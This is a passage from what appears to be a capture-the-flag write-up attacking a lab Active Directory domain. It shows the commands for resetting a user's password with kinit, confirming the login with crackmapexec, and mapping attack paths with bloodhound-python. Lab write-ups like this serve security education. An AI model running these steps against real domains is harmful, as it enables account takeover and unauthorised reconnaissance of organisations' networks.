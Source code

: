 Then we can send our requests using kinit to reset the password:
```bash
kinit -V Caroline.Robinson@BABY.VL
```
![pwdreset](../assets/posts/baby/pwdreset.png)

We changed the password had been changed to 'PwnBaby1234', to check that this went through correctly another crackmapexec smb logon request is made:
```bash
crackmapexec smb BabyDc.baby.vl -u "Caroline.Robinson" -p "PwnBaby1234" 
```
![user](../assets/posts/baby/user.png)


## Checking caroline's groups & permissions
With access to a user account, we can utilise bloodhound to map out potential attack paths:
```bash
bloodhound-python -u "Caroline.Robinson" -p "PwnBaby1234" -ns 10.10.106.67 -d baby.vl
```
![bl1](../assets/posts/baby/bl1.png)

BloodHound-Python automatically gathered domain info, computer info, group info, user info and placed it all into JSON files. Now we have to upload the JSON to the bloodhound interface to get a visually pleasing view of the information:
![bl2](../assets/posts/baby/bl2.png)
